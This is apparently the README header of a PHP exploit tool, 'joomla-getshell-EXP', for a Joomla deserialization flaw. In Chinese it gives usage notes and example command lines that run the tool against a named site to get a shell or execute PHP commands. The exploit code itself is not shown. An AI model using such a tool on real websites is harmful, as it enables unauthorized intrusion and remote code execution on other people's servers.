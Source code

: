 # joomla-getshell-EXP
##joomla 反序列化漏洞 getshell&amp;&amp;命令执行
#--------------- Joomla 反序列化漏洞利用工具---------------
#|      1.记得命令后头加分号，命令用单引号括起来。        |
#|      2.getshell因为种种原因不稳定，建议手工。          |
#|      3.仅供学习php代码使用                             |
#|Usage:                                                  |
#|php joomla.php http://xatusec.org getshell              |
#|php joomla.php http://xatusec.org command 'phpinfo();'  |
#-------------------Powered by Whirlwind-------------------
